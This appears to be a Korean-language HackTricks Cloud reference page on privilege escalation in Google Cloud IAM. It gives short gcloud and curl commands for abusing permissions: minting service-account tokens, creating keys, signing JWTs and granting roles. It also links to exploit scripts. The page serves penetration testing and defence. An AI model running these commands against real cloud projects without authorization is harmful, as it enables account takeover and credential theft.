# GCP - IAM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

IAM에 대한 더 많은 정보는 다음에서 찾을 수 있습니다:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

언급된 권한을 가진 공격자는 할당된 역할을 업데이트하고 다음과 같은 다른 리소스에 대한 추가 권한을 부여할 수 있습니다:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
자동화된 **취약 환경의 생성, 악용 및 정리를 위한 스크립트는 여기**에서 찾을 수 있으며, 이 권한을 악용하기 위한 python 스크립트는 [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py)에서 찾을 수 있습니다. 자세한 내용은 [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)를 참조하세요.

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

언급된 권한을 가진 공격자는 **서비스 계정에 속한 액세스 토큰을 요청**할 수 있으므로, 우리보다 더 많은 권한을 가진 서비스 계정의 액세스 토큰을 요청할 수 있습니다.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
[**취약 환경의 생성, 악용 및 정리를 자동화하는 스크립트는 여기**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh)에서 찾을 수 있으며, 이 권한을 악용하는 python 스크립트는 [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py)에서 찾을 수 있습니다. 자세한 내용은 [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)를 참조하십시오.

### `iam.serviceAccountKeys.create`

언급된 권한을 가진 공격자는 **Service Account에 대한 사용자 관리 키를 생성**할 수 있으며, 이를 통해 해당 Service Account로 GCP에 접근할 수 있습니다.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
자동화된 [**취약 환경의 생성, 악용 및 정리를 위한 스크립트는 여기**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh)에서 찾을 수 있으며, 이 권한을 악용하기 위한 파이썬 스크립트는 [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py)에서 찾을 수 있습니다. 자세한 정보는 [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)를 참조하십시오.

**`iam.serviceAccountKeys.update`는 SA의 키를 수정하는 데 작동하지 않습니다**. 왜냐하면 이를 위해서는 `iam.serviceAccountKeys.create` 권한도 필요하기 때문입니다.

### `iam.serviceAccounts.implicitDelegation`

만약 특정 서비스 계정에 대해 **`iam.serviceAccounts.implicitDelegation`** 권한을 가지고 있고, 그 서비스 계정이 다른 서비스 계정에 대해 **`iam.serviceAccounts.getAccessToken`** 권한을 가지고 있다면, implicitDelegation을 사용하여 **그 다른 서비스 계정에 대한 토큰을 생성할 수 있습니다**. 다음은 이를 설명하기 위한 다이어그램입니다.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

[**문서**](https://cloud.google.com/iam/docs/understanding-service-accounts)에 따르면, `gcloud`의 위임은 [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) 메서드를 사용하여 토큰을 생성하는 데만 작동합니다. 따라서 API를 직접 사용하여 토큰을 얻는 방법은 다음과 같습니다:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
[**여기**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh)에서 취약한 환경의 **생성, 악용 및 정리를 자동화하는 스크립트**와 이 권한을 악용하는 python 스크립트를 [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py)에서 찾을 수 있습니다. 자세한 내용은 [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)를 참조하세요.

### `iam.serviceAccounts.signBlob`

언급된 권한을 가진 공격자는 **GCP에서 임의의 페이로드를 서명**할 수 있습니다. 따라서 **SA의 서명되지 않은 JWT를 생성한 다음 이를 blob으로 보내 대상 SA가 JWT에 서명하도록 할 수 있습니다**. 자세한 내용은 [**여기**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed)를 읽어보세요.

[**여기**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh)에서 취약한 환경의 **생성, 악용 및 정리를 자동화하는 스크립트**와 이 권한을 악용하는 python 스크립트를 [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) 및 [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py)에서 찾을 수 있습니다. 자세한 내용은 [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)를 참조하세요.

### `iam.serviceAccounts.signJwt`

언급된 권한을 가진 공격자는 **잘 형성된 JSON 웹 토큰(JWT)을 서명**할 수 있습니다. 이전 방법과의 차이점은 **JWT를 포함하는 blob에 서명하도록 google에 요청하는 대신, 이미 JWT를 기대하는 signJWT 메서드를 사용한다는 것**입니다. 이를 통해 사용이 더 쉬워지지만, 임의의 바이트 대신 JWT만 서명할 수 있습니다.

[**여기**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh)에서 취약한 환경의 **생성, 악용 및 정리를 자동화하는 스크립트**와 이 권한을 악용하는 python 스크립트를 [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py)에서 찾을 수 있습니다. 자세한 내용은 [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)를 참조하세요.

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

언급된 권한을 가진 공격자는 **서비스 계정에 IAM 정책을 추가**할 수 있습니다. 이를 악용하여 **필요한 권한을 부여받아 서비스 계정을 가장**할 수 있습니다. 다음 예에서는 `roles/iam.serviceAccountTokenCreator` 역할을 흥미로운 SA에 부여하고 있습니다:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
[**여기에서 취약 환경의 생성, 악용 및 정리를 자동화하는 스크립트를 찾을 수 있습니다**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

**iam.serviceAccounts.actAs 권한**은 **AWS의 iam:PassRole 권한**과 유사합니다. 이는 Compute Engine 인스턴스를 시작하는 것과 같은 작업을 실행하는 데 필수적이며, 서비스 계정으로 "actAs"할 수 있는 능력을 부여하여 안전한 권한 관리를 보장합니다. 이 권한이 없으면 사용자가 부당한 접근을 얻을 수 있습니다. 또한, **iam.serviceAccounts.actAs**를 악용하는 것은 여러 가지 방법이 있으며, 각 방법은 일련의 권한이 필요하며, 다른 방법들은 단 하나의 권한만 필요합니다.

#### 서비스 계정 가장 <a href="#service-account-impersonation" id="service-account-impersonation"></a>

서비스 계정을 가장하는 것은 **새롭고 더 나은 권한을 얻는 데 매우 유용**할 수 있습니다. [다른 서비스 계정을 가장하는](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating_a_service_account) 세 가지 방법이 있습니다:

* **RSA 개인 키를 사용한 인증** (위에서 다룸)
* **Cloud IAM 정책을 사용한 권한 부여** (여기에서 다룸)
* **GCP 서비스에 작업 배포** (사용자 계정의 손상에 더 적용 가능)

### `iam.serviceAccounts.getOpenIdToken`

언급된 권한을 가진 공격자는 OpenID JWT를 생성할 수 있습니다. 이는 신원을 주장하는 데 사용되며, 반드시 리소스에 대한 암묵적인 권한을 포함하지는 않습니다.

이 [**흥미로운 게시물**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b)에 따르면, 청중(토큰을 사용하여 인증하려는 서비스)을 지정해야 하며, Google이 서명한 JWT를 받아 서비스 계정과 JWT의 청중을 나타냅니다.

다음과 같이 OpenIDToken을 생성할 수 있습니다 (접근 권한이 있는 경우):
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
그런 다음 이를 사용하여 서비스에 액세스할 수 있습니다:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
일부 서비스는 이러한 종류의 토큰을 통한 인증을 지원합니다:

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (Google OIDC 사용 시)

서비스 계정을 대신하여 OpenID 토큰을 생성하는 예제는 [**여기**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py)에서 찾을 수 있습니다.

## 참고 자료

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking 학습 및 연습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking 학습 및 연습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* PR을 제출하여 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}
